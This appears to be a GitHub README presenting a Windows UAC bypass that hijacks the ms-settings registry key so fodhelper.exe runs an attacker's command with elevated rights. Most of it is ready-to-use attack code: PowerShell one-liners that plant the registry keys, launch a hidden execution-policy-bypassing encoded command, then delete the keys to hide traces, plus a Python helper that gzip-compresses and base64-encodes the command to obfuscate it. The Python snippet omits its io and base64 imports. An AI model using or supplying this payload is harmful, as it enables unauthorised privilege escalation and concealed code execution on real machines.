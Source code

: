 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```

### Encryption and Encode

<b>I know it's corny, but compression is a form of encryption</b>

We want to compress and encode this command to where powershell can decompress.

Compression often generates unwanted characters, so we will also encode after compressing

```python
# Please forgive me, I hate leaving comments
# The code should speak for itself

import gzip

def compress_and_base64(input):
    # Convert string to bytes
    bytes = input.encode('utf-8')

    # Initialize buffer
    buffer = io.BytesIO()

    # Compress stream with gzip
    with gzip.GzipFile(fileobj=buffer, mode='wb') as file:
        file.write(bytes)

    # Save stream to variable
    compressed = buffer.getvalue()

    # Encode, so invisble characters are saved
    encoded = base64.b64encode(compressed)

    # Convert bytes to string
    return encoded.decode('utf-8')
```
